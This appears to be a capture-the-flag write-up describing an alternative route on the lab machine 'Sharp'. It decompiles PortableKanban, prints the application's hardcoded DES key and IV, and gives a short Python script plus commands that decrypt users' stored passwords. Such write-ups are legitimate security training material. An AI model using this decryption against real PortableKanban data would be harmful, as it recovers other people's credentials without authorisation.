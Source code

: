 # Alternative way to exploit Sharp

## Decompiling PortableKanban

Instead of modifying the _PortableKanban.pk3.bak_ file and creating an admin user to gain the credentials of the users in the GUI, the executable can be decompiled to check how the encryption works.

By opening _PortableKanban.exe_ and _PortableKanban.Data.dll_ in **dnSpy**, the class _Crypto_ shows that it uses **DES encryption** and contains two hardcoded secrets:
```
// Token: 0x04000001 RID: 1
private static byte[] _rgbKey = Encoding.ASCII.GetBytes("7ly6UznJ");

// Token: 0x04000002 RID: 2
private static byte[] _rgbIV = Encoding.ASCII.GetBytes("XuVUm5fR");
```

Creating a Python script to use these values and decrypt the passwords in _PortableKanban.pk3_:
```python
import sys
from base64 import b64decode
import des

passwd = b64decode(sys.argv[1])
c = des.DesKey(b'7ly6UznJ')
iv = b'XuVUm5fR'

print(c.decrypt(passwd, initial=iv, padding=True))
```

```
python3 decrypt_kanban.py 'k+iUoOvQYG98PuhhRC7/rg=='
python3 decrypt_kanban.py 'Ua3LyPFM175GN8D3+tqwLA=='
```
